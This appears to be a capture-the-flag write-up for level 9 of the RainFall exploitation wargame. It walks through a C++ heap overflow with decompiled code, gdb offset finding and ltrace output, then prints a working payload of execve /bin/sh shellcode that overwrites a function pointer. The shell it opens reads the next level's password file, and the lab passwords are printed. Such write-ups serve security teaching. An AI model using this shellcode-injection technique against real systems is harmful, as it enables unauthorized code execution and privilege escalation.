 # Level9

## Analysis

**In `main()`:**
```cpp
    // At least one argument needed
	if (ac <= 1) {
		exit(1);
	}

    // Create two objects
	obj1 = new N(5);
	obj2 = new N(6);

    // Unprotected 'memset()'
	obj1->setAnnotation(av[1]);

    // Call to pointer to pointer of function
	(**fct)(obj2, &obj1);

	return 0;
```

___

## Exploit

Using the memcpy, we'll overwrite `**fct` to the adress of `N.str` which need to need to be the pointer to function which will point to our first shellcode instruction

Lets determine the offset to overwrite `**fct`
```
 ❯ python3 offset.py
AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz%                            

(gdb) r AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz
Starting program: /home/user/level9/level9 AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKKLLLLMMMMNNNNOOOOPPPPQQQQRRRRSSSSTTTTUUUUVVVVWWWWXXXXYYYYZZZZaaaabbbbccccddddeeeeffffgggghhhhiiiijjjjkkkkllllmmmmnnnnooooppppqqqqrrrrssssttttuuuuvvvvwwwwxxxxyyyyzzzz

Program received signal SIGSEGV, Segmentation fault.
(gdb) info register eax
eax            0x62626262       1650614882

 ❯ python3 offset.py 62
108
```

what's the adress of `N.str` ?
```
level9@RainFall:~$ ltrace ./level9 42
__libc_start_main(0x80485f4, 2, 0xbffff7f4, 0x8048770, 0x80487e0 <unfinished ...>
_ZNSt8ios_base4InitC1Ev(0x8049bb4, 0xb7d79dc6, 0xb7eebff4, 0xb7d79e55, 0xb7f4a330) = 0xb7fce990
__cxa_atexit(0x8048500, 0x8049bb4, 0x8049b78, 0xb7d79e55, 0xb7f4a330) = 0
_Znwj(108, 0xbffff7f4, 0xbffff800, 0xb7d79e55, 0xb7fed280) = 0x804a008
_Znwj(108, 5, 0xbffff800, 0xb7d79e55, 0xb7fed280)       = 0x804a078
strlen("42")                                            = 2
memcpy(0x0804a00c, "42", 2)                             = 0x0804a00c
_ZNSt8ios_base4InitD1Ev(0x8049bb4, 11, 0x804a078, 0x8048738, 0x804a00c) = 0xb7fce4a0
+++ exited (status 11) +++
```

**Solution:**
 * (04) pointer to the first instruction of shell_code
 * (45) shell_code
 * (59) offset, 108 - 04 - 45
 * (04) return adress of memcpy

```
level9@RainFall:~$ ./level9 $(python -c 'print "\x10\xa0\x04\x08" + "\xeb\x1f\x5e\x89\x76\x08\x31\xc0\x88\x46\x07\x89\x46\x0c\xb0\x0b\x89\xf3\x8d\x4e\x08\x8d\x56\x0c\xcd\x80\x31\xdb\x89\xd8\x40\xcd\x80\xe8\xdc\xff\xff\xff/bin/sh" + "\x90" * 59 + "\x0c\xa0\x04\x08"')
$ whoami
bonus0
$ cat /home/user/bonus0/.pass
f3f0004b6f364cb5a4147e9ef827fa922a4861408845c26b6971ad770d906728
```

___

*Password: c542e581c5ba5162a85f767996e3247ed619ef6c6f7b76a59435545dc6259f8a*